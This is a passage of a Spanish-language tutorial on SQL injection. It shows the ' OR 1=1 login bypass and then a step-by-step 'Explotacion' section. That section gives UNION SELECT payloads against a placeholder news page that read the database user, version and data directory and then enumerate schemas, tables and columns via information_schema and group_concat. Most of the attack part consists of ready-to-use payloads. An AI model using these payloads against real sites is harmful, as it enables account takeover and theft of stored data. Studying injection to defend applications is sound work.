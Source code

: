 Sabiendo eso se puede usar el parámetro mágico: ' OR 1=1

```sql
SELECT usuario FROM usuarios WHERE usuario = '' OR '1'='1' AND password="" OR "1"="1"
```

Al ser todo verdadero devolverá la tabla completa de usuarios.

En caso de querer entrar en una cuenta en específico bastaría con cambiar el usuario a el que queremos acceder y dejamos el password con la frase mágica.

### Explotacion

1. Recopilación de información sobre usuarios, versión, etc.
   - **User()**: Que usuario ejecuta las consultas en la app.
   - **database()**: Nombre de la base de datos.
   - **@@version**: Que versión tenemos.
   - **@@datadir**: Donde está instalado MySQL.

```text
        http://dominio/noticias.php?id=1 and 1=0 union select user(),database()
        http://dominio/noticias.php?id=1 and 1=0 union select @@version,@@datadir
```

1. Extracción de información de la base de datos.
2. Extracción de las tablas de la base de datos seleccionada.
3. Extracción de las columnas de la tabla seleccionada.
4. Realizar las consultas personalizadas de las columnas y la tabla seleccionada.

Para sacar toda esta información usaremos la base de datos **information_schema**.

| Descripción                  | Tabla                       | Columna     |
|:----------------------------:|:---------------------------:|:-----------:|
| Nombre de las bases de datos | information_schema.schemata | schema_name |
| Nombre de las tablas         | information_schema.tables   | table_name  |
| Nombre de las columnas       | information_schema.columns  | column_name |

En muchos casos solo nos deja devolver un solo registro, por lo que se usará la función **concat()** o **group_concat()** para unir toda la información.

```sql
-- Bases de datos

http://dominio/noticias.php?id=3 and 1=0 union 
select group_concat(schema_name) from information_schema.schemata

-- Tablas

http://dominio/noticias.php?id=3 and 1=0 union
select group_concat(table_name) from information_schema.tables where table_schema = 'nombre_BBDD'

-- Columnas

http://dominio/noticias.php?id=3 and 1=0 union
select group_concat(column_name) from information_schema.columns where
table_name = 'nombre_tabla'

-- Consultas personalizadas

http://dominio/noticias.php?id=3 and 1=0 union
select group_concat('nombre_columna') from nombre_tabla
```
